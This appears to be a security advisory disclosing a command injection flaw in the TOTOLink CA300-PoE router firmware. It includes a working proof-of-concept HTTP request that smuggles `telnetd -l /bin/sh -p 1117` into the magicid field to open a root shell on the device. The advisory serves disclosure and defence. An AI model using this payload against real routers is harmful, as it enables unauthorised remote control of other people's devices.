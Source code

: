 # TOTOLink Vulnerability

Vendor:TOTOLink

Product:CA300-PoE

Version:V6.2c.884

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in TOTOLink router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `ap.so` binary:

In `recvUpgradeNewFw` function, `magicid` is directly passed by the attacker, so we can control the `magicid` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `magicid` as **`telnetd -l /bin/sh -p 1117`** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 118
Origin: http://192.168.0.3
Connection: close
Referer: http://192.168.0.3/adm/status.asp?timestamp=1750083952188
Cookie: SESSION_ID=2:1750083937:2

{"topicurl":"setting/recvUpgradeNewFw","fwUrl":"","newSvn":"","tSecond":"1","magicid":"`telnetd -l /bin/sh -p 1117`"}
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
